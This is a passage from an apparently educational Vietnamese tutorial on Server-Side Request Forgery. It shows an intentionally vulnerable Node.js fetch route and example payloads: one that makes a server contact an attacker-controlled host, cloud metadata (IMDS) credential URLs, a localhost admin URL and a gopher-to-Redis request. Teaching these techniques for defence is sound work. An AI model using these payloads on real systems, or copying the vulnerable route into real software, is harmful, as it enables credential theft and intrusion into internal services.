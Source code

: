 # 1) SSRF là gì — tóm tắt

**Server-Side Request Forgery (SSRF)** là lỗi khi ứng dụng cho phép user kiểm soát URL/host mà server sẽ gọi. Kẻ tấn công lợi dụng để ép server thực hiện request tới dịch vụ nội bộ hoặc bên ngoài thay mặt server, dẫn tới lộ dữ liệu nội bộ, SSRF→SSRF chaining, SSRF→RCE hoặc SSRF→SSO token leak.


# 2) Phân loại SSRF & ví dụ cho mỗi loại

## A. Basic SSRF (Reflected / In-band)

**Mô tả:** server nhận URL từ user và fetch nội dung rồi trả về (hoặc hiển thị). Attacker chỉ cần cung cấp một URL để server truy vấn và hiển thị kết quả.

**Ví dụ vulnerable code (pseudo):**

```js
// Node.js pseudo: server fetches URL từ param `url` và trả nội dung
app.get('/fetch', async (req, res) => {
  const r = await fetch(req.query.url);
  const body = await r.text();
  res.send(body);
});
```

**Payload (lab):**

```
https://victim.example.com/fetch?url=http://example.com/attacker
```

Server sẽ request `http://example.com/attacker` — attacker có thể nhận request và thấy headers/source IP.

**Hậu quả:** xác thực token leaking nếu server đặt token header; dùng để fingerprint internal services.


## B. SSRF → Internal Service Access (localhost / internal IP)

**Mô tả:** server gọi tới địa chỉ nội bộ (127.0.0.1, 169.254.169.254, 10.x.x.x, 172.16.x.x, 192.168.x.x) để truy cập dịch vụ chỉ reachable từ máy đó.

**Ví dụ payloads:**

* Truy metadata AWS IMDS (lab/allowed only):
  `http://169.254.169.254/latest/meta-data/`
* Truy web admin nội bộ:
  `http://127.0.0.1:8080/admin`
* Truy Redis thông qua gopher (xem phần Protocol tricks):
  `gopher://127.0.0.1:6379/_%2a__` *(phức tạp hơn)*

**Hậu quả điển hình:** lộ metadata (credentials), nội dung admin, config, database consoles.
